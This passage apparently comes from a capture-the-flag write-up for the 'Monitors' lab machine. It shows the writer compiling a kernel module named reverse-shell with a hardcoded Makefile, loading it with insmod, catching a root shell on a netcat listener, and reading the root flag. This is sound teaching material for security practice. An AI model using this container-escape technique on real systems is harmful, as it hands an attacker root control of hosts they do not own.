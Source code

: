 For the `Makefile`, I had issues with the stuff in `$()` running, but it was pretty obvious what should be there, so I just changed it to include hardcoded values:

```

obj-m +=reverse-shell.o
all:
        make -C /lib/modules/4.15.0-142-generic/build M=/root modules
clean:
        make -C /lib/modules/4.15.0-142-generic/build M=/root clean

```

I put `/root` where it was `$(PWD)`, so I’ll need to work out of that directory in the container on Monitors. I’ll be quick and cleanup once I’m done.

I’ll upload both those files to the container using `wget` and a Python webserver.

#### Build and Run

With both those files in `/root`, I’ll go into that directory and run `make`:

```

root@ec8b9784f4a1:~# make
make -C /lib/modules/4.15.0-142-generic/build M=/root modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
  CC [M]  /root/reverse-shell.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/reverse-shell.mod.o
  LD [M]  /root/reverse-shell.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'

```

This builds the kernel module.

Now I’ll start `nc` and install it with `insmod reverse-shell.ko`. On doing so, it’ll execute the reverse shell.

```

oxdf@parrot$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.238] 42726
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# id
id
uid=0(root) gid=0(root) groups=0(root)

```

And grab `root.txt`:

```

root@monitors:/root# cat root.txt
8e510bad************************

```